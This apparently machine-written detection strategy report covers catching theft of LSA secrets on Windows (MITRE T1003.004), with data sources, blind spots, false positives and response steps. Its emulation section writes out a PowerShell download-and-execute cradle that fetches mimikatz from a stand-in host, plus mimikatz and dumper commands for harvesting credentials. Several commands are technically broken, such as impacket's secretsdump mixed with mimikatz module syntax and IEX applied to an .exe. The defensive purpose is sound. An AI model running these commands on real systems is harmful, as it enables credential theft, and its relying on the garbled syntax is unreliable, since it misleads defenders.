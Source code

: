 # Alerting & Detection Strategy Report

## Goal

The goal of this detection technique is to identify and detect adversarial attempts to extract sensitive credentials stored in the Local Security Authority (LSA) Secrets on Windows systems. This encompasses detecting techniques used to bypass security measures by adversaries aiming to access LSA secrets, which can lead to further exploitation or lateral movement within a network.

## Categorization

- **MITRE ATT&CK Mapping:** T1003.004 - LSA Secrets
- **Tactic / Kill Chain Phases:** Credential Access
- **Platforms:** Windows

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1003/004)

## Strategy Abstract

The detection strategy focuses on monitoring system and application logs, PowerShell execution history, and process activity to identify patterns indicative of LSA secrets extraction. Key data sources include:

- **Windows Event Logs:** Specifically, Security logs for suspicious activities like unauthorized access or changes.
- **Sysmon Logs:** For detecting processes that interact with the LSASS.exe (Local Security Authority Subsystem Service) process.
- **PowerShell Script Execution:** To monitor and identify scripts commonly used in dumping LSA secrets.

Patterns analyzed include:
- Unusual command-line arguments related to security utilities like `lsadump`, `secretsdump.py`, or PowerShell commands targeting LSASS memory.
- Unexpected access attempts by non-administrative accounts.
- Network traffic patterns indicating the use of external tools for credential exfiltration.

## Technical Context

Adversaries often employ various techniques to dump LSA secrets, such as leveraging Mimikatz or creating custom scripts. These methods typically involve:

1. **Process Injection:** Using PowerShell or other utilities like `psexec` to inject code into LSASS.exe.
2. **Direct Memory Access:** Executing tools that read the memory space of LSASS directly.

Common commands used in these attacks include:
- `Invoke-Mimikatz -DumpCreds`
- `secretsdump.py lsadump::sam`

Adversary emulation scenarios may involve running these commands under controlled conditions to understand their signatures and impact on system logs.

## Blind Spots and Assumptions

- **Blind Spots:**
  - Detection might miss obfuscated or heavily modified scripts.
  - Encrypted network communications could evade detection of exfiltration attempts.

- **Assumptions:**
  - The strategy assumes that logging configurations are comprehensive and capture all relevant activities.
  - It is assumed that the system has adequate monitoring for PowerShell execution and process interactions.

## False Positives

Potential benign activities that might trigger false alerts include:
- Legitimate use of security tools like Mimikatz for authorized penetration testing or internal audits.
- System administrators performing maintenance tasks involving credential management or backups.
- Misconfigured scripts or applications unintentionally accessing LSASS memory.

## Priority

**Severity: High**

Justification: 
Access to LSA secrets can provide adversaries with a wide range of credentials, including domain admin passwords. This capability significantly increases the risk of further exploitation and lateral movement within an enterprise network.

## Validation (Adversary Emulation)

### Step-by-Step Instructions:

1. **Environment Setup:**
   - Use a controlled Windows test environment.
   - Ensure Sysmon is installed to monitor process creation, command-line arguments, and network connections.

2. **Dumping LSA Secrets:**

   - Download Mimikatz using PowerShell:
     ```powershell
     IEX (New-Object Net.WebClient).DownloadString('https://example.com/mimikatz.exe')
     ```
   
   - Execute the following to dump credentials:
     ```shell
     mimikatz # privilege::debug sekurlsa::logonpasswords
     ```

3. **Dump Kerberos Tickets:**

   - Use `dumper.ps1` script for extracting tickets from LSASS memory:
     ```powershell
     .\dumper.ps1 lsadump::ekeys
     ```

4. **Monitor and Analyze:**
   - Review Sysmon logs for suspicious activities.
   - Check PowerShell execution history for relevant command patterns.

## Response

When the alert fires, analysts should:

- Immediately isolate the affected system from the network to prevent further data exfiltration.
- Conduct a thorough investigation to determine the scope of the breach and potential lateral movement.
- Review all recent administrative actions and logs for signs of unauthorized access or privilege escalation.
- Notify relevant stakeholders and consider engaging incident response teams if necessary.

## Additional Resources

For further context and understanding, refer to:

- **PowerShell Download and Execution Cradles:** Techniques involving PowerShell scripts used in attacks.
- **PowerShell Web Download Pattern:** Identifying web-based downloads executed via PowerShell.
- **Usage Of Web Request Commands And Cmdlets:** Common commands that indicate external data interactions.
- **Use Short Name Path in Command Line:** A tactic to evade detection by using short paths.
- **Psexec Execution:** Monitoring for unauthorized remote execution tools.
- **Potential Execution of Sysinternals Tools:** Understanding how legitimate tools can be misused.

This structured approach ensures a comprehensive understanding and effective monitoring against LSA secrets extraction attempts.
